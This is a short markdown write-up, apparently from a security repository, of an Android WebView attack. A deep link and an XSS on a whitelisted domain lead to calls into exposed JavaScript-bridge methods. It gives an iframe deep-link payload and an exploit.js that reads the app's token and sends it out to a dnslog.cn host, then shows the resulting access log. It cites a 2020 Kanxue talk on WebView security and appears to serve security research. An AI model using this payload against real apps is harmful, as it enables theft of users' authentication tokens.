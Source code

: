 ## Process
```mermaid
graph TD;
    Evil-html-->Call-by-DeepLink-Scheme;
    Call-by-DeepLink-Scheme-->Activity;
    Activity-->WebView;
    WebView-->Execute-JS;
    XSS-in-WhiteList-->Execute-JS;
    Execute-JS-->JsInterface;
    JsInterface-->window.getToken;
    JsInterface-->window.downloadFile;
    window.getToken-->Java-interface;
    window.downloadFile-->Java-interface;
```
## payload
- Evil.html
```html
<iframe src= "deeplink://com.abc.xxx/activity?param=1&url=http://whitelist.com/xss=exploit.js">
```
- exploit.js
```javascript
function evil(){
   var data = window.JsInterface.getToken();
   document.body.appendCild(document.createElement("img")).src= "http://xx.dnslog.cn?data=" + data;
  }
```
- Result: Accesslog of dnslog.cn
```
 GET /data={Token="xxxxx"}
```
- [2020 看雪SDC议题回顾 | Android WebView安全攻防指南2020](https://zhuanlan.kanxue.com/article-14155.htm)

